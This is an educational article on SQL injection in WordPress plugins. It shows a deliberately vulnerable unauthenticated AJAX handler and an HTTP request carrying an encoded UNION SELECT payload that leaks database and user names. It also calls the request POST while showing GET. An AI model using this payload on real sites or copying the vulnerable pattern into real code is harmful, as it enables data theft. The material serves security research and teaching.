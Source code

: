 ```yaml
---
title: SQL Injection (SQLi)
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible SQLi on WordPress. This includes improper usage of functions and user input handling inside of the plugin/theme which can be used to inject a malicious query into the SQL execution to leak sensitive data.

## Useful Functions

Several functions could be useful to identify a possible SQLi vulnerability:

- [`$wpdb->query`](https://developer.wordpress.org/reference/classes/wpdb/query/)
- [`$wpdb->get_var`](https://developer.wordpress.org/reference/classes/wpdb/get_var/)
- [`$wpdb->get_row`](https://developer.wordpress.org/reference/classes/wpdb/get_row/)
- [`$wpdb->get_col`](https://developer.wordpress.org/reference/classes/wpdb/get_col/)
- [`$wpdb->get_results`](https://developer.wordpress.org/reference/classes/wpdb/get_results/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_nopriv_load_questions", "load_questions");

function load_questions(){
    global $wpdb;

    $quiz_id = $_GET["quiz_id"];

    if ( isset($_COOKIE[ 'question_ids_'.$quiz_id ]) ) {
        $question_sql = sanitize_text_field( wp_unslash( $_COOKIE[ 'question_ids_'.$quiz_id ] ) );
    }else {
        $question_ids = array("1","2","3");
        $question_sql = implode( ',', $question_ids );
    }
    
    $order_by_sql = 'ORDER BY FIELD(question_id,'.$question_sql.')';

    $query     = $wpdb->prepare( "SELECT * FROM {$wpdb->prefix}custom_questions WHERE question_id IN (%1s)", $question_sql);
    $questions = $wpdb->get_results( stripslashes( $query ) );

    wp_send_json($questions);
}
```

The vulnerable variable, in this case, is the `$question_sql` variable where the value is passed from `$_COOKIE[ 'question_ids_'.$quiz_id ]` value without proper sanitization or escaping. The `sanitize_text_field` function is not enough to prevent SQL Injection since the `$question_sql` variable is constructed inside an ORDER BY clause without proper escaping.

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed action and parameter to trigger the SQL Injection (let's say that the `{$wpdb->prefix}custom_questions` table has 5 columns):

```http
GET /wp-admin/admin-ajax.php?action=load_questions&quiz_id=1 HTTP/1.1
Host: localhost
Cookie: question_ids_1=1%29%20and%20false%20union%20select%20database%28%29%2C%271337%27%2C%271337%27%2Cuser%28%29%2C%271337%27%20--%20-%20
Connection: close

```

Below are some of the findings related to SQLi:

- [Critical Vulnerabilities Patched in REHub Theme and Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-rehub-theme-and-plugin/)
- [Critical SQL Injection Found in Porto Theme's Plugin](https://patchstack.com/articles/critical-sql-injection-found-in-porto-themes-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Unauthenticated SQL Injection in Quiz And Survey Master <= 8.1.4](https://patchstack.com/articles/critical-unauthenticated-sql-injection-in-quiz-and-survey-master/)
- [Multiple Vulnerabilities Fixed In WP Statistics Plugin Version <= 13.2.10](https://patchstack.com/articles/multiple-authenticated-sql-injection-fixed-in-wp-statistics-plugin-version-13-2-10/)
- [Multiple Critical Vulnerabilities Fixed In LearnPress Plugin Version <= 4.1.7.3.2](https://patchstack.com/articles/multiple-critical-vulnerabilities-fixed-in-learnpress-plugin-version/)